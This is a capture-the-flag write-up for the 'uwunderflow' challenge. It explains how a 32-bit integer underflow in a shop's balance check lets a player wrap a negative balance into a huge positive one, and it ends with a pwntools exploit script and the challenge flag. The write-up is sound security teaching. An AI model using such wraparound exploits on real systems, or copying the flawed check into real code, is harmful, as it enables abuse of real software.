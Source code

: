 # uwunderflow

## Challenge

If we run the binary or connect to the server using netcat, we are greeted with this menu:

```
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 100
```

We cannot buy flags as we do not have sufficient balance, but we can buy a limited number of uwus:

```
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 100
1
You don't have enough money :(
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 100
2
How many uwus do you want to buy?
2
You bought 2 uwus
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 68
```

If we successfully buy a flag, the program will print the flag for us:

```c
void buyFlag() {
    if (balance < FLAG_COST) {
        puts("You don't have enough money :(");
        return;
    }

    balance -= FLAG_COST;
    puts(flag);
}
```

However, there does not appear to be a way to increase our balance.
The only change we can make to our balance is subtracting from it to buy uwus.

We also can't buy negative uwus:

```c
if (num < 0) {
    puts("You can't buy negative uwus >:(");
    return;
}
```

And we can't buy a number that would give us a negative balance:

```c
int newBalance = balance - (num * UWU_COST);

if (newBalance < 0) {
    puts("You don't have enough money :(");
    printf("Your new balance would be $%d\n", newBalance);
    return;
}

balance = newBalance;
```

```
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 100
2
How many uwus do you want to buy?
10
You don't have enough money :(
Your new balance would be $-60
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 100
```

## Solution

Let's focus on the `buyUwus` function, as this is the only way we can change our balance
(aside from buying a flag).

As stated above, we can buy a number of uwus that leaves us with a non-negative balance.
If we buy uwus that leave us with a negative balance, this function will fail.
This is to prevent us from buying more uwus than we can afford to.

However, note that there is a difference between what the program is trying to prevent,
and what the program is actually checking for.
In this case, as long as we end up with a non-negative balance, we can buy any number of uwus we want.

Recall that an integer is stored as 32 bits and represents negative bits using twos-complement.
Our initial balance (100) is stored as:

```
00000000 00000000 00000000 01100100
```

If we somehow end up with a balance of -1, it would be stored as:

```
11111111 11111111 11111111 11111111
```

The most significant bit indicates that the value is negative.
The larger the number of uwus we buy, the more negative this number becomes.

For example, if we spent 128 more, we would have a balance of -129, which is:

```
11111111 11111111 11111111 01111111
```

Note that we just changed a single bit from 1 to 0.
We can change any bit of this number by subtracting a specific value.

What if we were to change the sign bit which indicates the number is negative?

To change this, we subtract 2^31 (2147483648) from an already negative number.
For example, if we subtract from the number above, we get:

```
01111111 11111111 11111111 01111111
```

This actually becomes a very large positive number (2147483519)!
This is the result of integer underflow,
as the result would have exceeded the lower bound of a 32-bit number.
The data type cannot store such a negative number and it wraps around to the maximum positive number.

So to get from our original balance (100) to a larger positive number,
we must spend enough to get a negative balance (101), plus 2^31 to flip the sign bit.
This means we need to spend a minimum of 2147483748.

Each uwu costs 16, so we need to buy at least 134217735 uwus to get a larger positive balance.

```
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 100
2
How many uwus do you want to buy?
134217735
You bought 134217735 uwus
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 2147483636
```

We now have a huge positive balance and we can buy the flag.

```
You bought 134217735 uwus
[1] Buy flag ($13371337)
[2] Buy uwus ($16)
Your balance: 2147483636
1
maple{Uwuniveristy_of_BC}
```

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 uwunderflow
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('uwunderflow')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

uwus = str((2**31 + 100) // 16 + 1).encode()

io.sendlineafter(b"Your balance:", b"2")
io.sendlineafter(b"How many uwus do you want to buy?\n", uwus)
io.sendlineafter(b"Your balance:", b"1")

io.interactive()
```

## Flag

```
maple{Uwuniveristy_of_BC}
```
